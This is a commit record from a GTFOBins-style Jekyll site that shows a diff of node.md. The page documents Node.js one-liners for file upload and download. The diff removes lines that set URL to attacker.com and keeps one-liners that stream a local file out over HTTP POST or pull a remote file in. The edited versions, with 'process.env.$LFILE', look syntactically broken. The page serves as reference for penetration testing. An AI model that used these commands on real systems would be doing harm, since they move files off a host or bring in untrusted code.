

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/node.md, in a window 1280 px wide, cut to the strip 339-824 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update node.md

```diff
--- a/_gtfoud/node.md
+++ b/_gtfoud/node.md
@@ -3,13 +3,9 @@ functions:
   file-upload:
     - description: Send a local file via HTTP POST request.
       code: |
-        export URL=http://attacker.com
-        export LFILE=file_to_send
-        node -e 'require("fs").createReadStream(process.env.LFILE).pipe(require("http").request(process.env.URL))'
+        node -e 'require("fs").createReadStream(process.env.$LFILE).pipe(require("http").request(process.env.$URL))'
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
-        node -e 'require("http").get(process.env.URL, res => res.pipe(require("fs").createWriteStream(process.env.LFILE)))'
+        node -e 'require("http").get(process.env.$URL, res => res.pipe(require("fs").createWriteStream(process.env.$LFILE)))'
 ---
```
